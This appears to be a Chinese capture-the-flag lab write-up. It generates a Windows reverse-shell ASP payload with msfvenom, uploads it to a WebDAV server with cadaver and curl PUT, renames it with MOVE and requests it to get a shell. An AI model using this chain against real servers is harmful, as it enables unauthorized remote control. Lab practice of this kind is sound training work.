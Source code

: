 ```
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.16 LPORT=4443 -f asp > dayu1.asp
```

利用 msfvenom 生成 asp shell，然后上传到 Web 服务器即可...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOmVE985UqLaMLjRhPdWkiaUfAo0h9gx5e5s8b3AdHWiaUzLR1BPk6LlFjIiazcKHed4GkqSoYwrjJPA/640?wx_fmt=png)

将 asp 内容复制到 txt 文本中...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOmVE985UqLaMLjRhPdWkiaUjZHm4un02Oqwakk7cW7bXiaZal4qnqDsslB5lGfBhEkukAcwuvZvtHA/640?wx_fmt=png)

```
cadaver  http://10.10.10.15
```

cadaver 描述：WEBDAV 是基于 HTTP 1.1 的扩展协议，其支持使用 PUT 方法上传和锁定文件，基于这个特性可以实现功能强大的内容或配置管理系统。但丰富的功能特性总是会带来安全方面的更多隐患，尤其是在配置不当的情况下，可能直接给攻击者留下一个文件上传的入口。davtest 是一个文件上传漏洞的检测和验证工具，而 cadaver 作为一个命令行形式的 WEBDAV 客户端程序，可以对相应服务器进行任何操作。

可以看到通过 put 上传文件，然后 move 重名了文件... 即可...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOmVE985UqLaMLjRhPdWkiaUOsHuzsVtk7efUDibAibDVqib9icQND1mnhhhquqAKmzPGibScBG4lJxrh9Q/640?wx_fmt=png)

直接访问即可获得反向外壳....

  

  

方法 2：

  

  

利用 curl 上传...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOmVE985UqLaMLjRhPdWkiaUCSYukVib0yr3KCXpNfcDBs3yKdHLP3Z2OrAQgHsIWG9PC1g1lbtfhHQ/640?wx_fmt=png)

```
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.16 LPORT=4444 -f asp > dayu.asp
```

已经生成 dayu.asp...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOmVE985UqLaMLjRhPdWkiaUkzlwVw1iaXhOkAWPuA38pRXmHWy0wsdTib6llJHZ74VCBJZQkWbpqdJw/640?wx_fmt=png)

命令：

```
php
touch dayu.txt    --创建本地txt文件，用于替换asp创建的
cp dayu.asp dayu.txt   --将msfvenom生成的asp内容复制到txt文件中
curl -T 'dayu.txt' http://10.10.10.15/dayu.txt   --上传txt文件到granny服务上
curl -X MOVE --header 'Destination:http://10.10.10.15/dayu.asp' 'http://10.10.10.15/dayu.txt'   --txt改名asp
curl 'http://10.10.10.15/dayu.asp'   ---访问asp文件
```

可以看到成功获得反向外壳... 
